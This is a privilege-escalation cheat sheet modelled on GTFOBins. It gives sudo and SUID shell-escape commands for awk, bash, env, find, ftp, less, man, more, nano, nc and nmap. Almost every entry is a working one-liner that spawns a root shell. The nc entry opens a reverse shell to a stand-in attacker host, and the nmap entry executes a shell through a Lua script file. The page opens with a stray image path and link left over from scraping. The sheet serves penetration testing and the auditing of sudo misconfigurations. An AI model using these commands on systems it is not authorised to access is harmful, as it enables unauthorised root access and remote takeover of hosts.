 [NMAP](# NMAP)

# AWK
### SUDO
```
sudo awk 'BEGIN {system("/bin/sh")}'
```

### SUID
```
sudo sh -c 'cp $(which awk) .; chmod +s ./awk'

./awk 'BEGIN {system("/bin/sh")}'

```

# BASH
### SUDO
```
sudo bash
```
### SUID
```
sudo sh -c 'cp $(which bash) .; chmod +s ./bash'

./bash -p
```
# ENV
### SUDO
```
sudo env /bin/sh
```
### SUID
```
sudo sh -c 'cp $(which env) .; chmod +s ./env'

./env /bin/sh -p
```
# FIND
### SUDO
```
sudo find . -exec /bin/sh \; -quit
```
### SUID
```
sudo sh -c 'cp $(which find) .; chmod +s ./find'

./find . -exec /bin/sh -p \; -quit
```
# FTP
### SUDO
```
sudo ftp
!/bin/sh
```
# LESS
### SUDO
```
sudo less /etc/profile
!/bin/sh
```
### SUID
```
sudo sh -c 'cp $(which less) .; chmod +s ./less'

./less file_to_read
```
# MAN
### SUDO
```
sudo man man
!/bin/sh
```
# MORE
### SUDO
```
TERM= sudo -E more /etc/profile
!/bin/sh
```
### SUID
```
sudo sh -c 'cp $(which more) .; chmod +s ./more'

./more file_to_read
```

# NANO
### SUDO
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
### SUID
```
sudo sh -c 'cp $(which nano) .; chmod +s ./nano'

./nano
^R^X
reset; sh 1>&0 2>&0
```
# NC
### SUDO
```
# Run nc -l -p 12345 on the attacker box to receive the shell. This only works with netcat traditional.

RHOST=attacker.com
RPORT=12345
sudo nc -e /bin/sh $RHOST $RPORT
```

# NMAP
### SUDO
```
#   Input echo is disabled.

TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

#   The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

sudo nmap --interactive
nmap> !sh
```

